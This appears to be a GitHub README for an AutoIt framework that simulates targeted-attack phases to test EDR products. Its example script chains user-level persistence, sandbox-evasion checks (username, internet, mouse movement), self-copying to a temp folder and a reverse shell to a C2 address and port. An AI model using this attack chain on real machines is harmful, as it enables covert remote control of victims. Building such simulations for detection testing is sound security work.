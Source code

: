 # EDR Tester

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.


## Example

* This is an example


**APT01**
```
#include "libs/settings.au3"
#include "libs/network.au3"
#include "libs/info.au3"
#include "libs/files.au3"
#include "libs/misc.au3"

$victim = "test"
$c2server = "192.168.0.1"
$c2port = "432"

if isRunningFromTemp() Then

   SetPersistent4CurrentUser()

   ReverseShell($c2server, $c2port)

Else

   if AmIusername($victim) Then

	  if InternetCheck() Then

		 if DetectMouseMoving() Then

			MessageBox("Debug","Hi!")

			CopyTempRun()

		 EndIf

	  EndIf

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

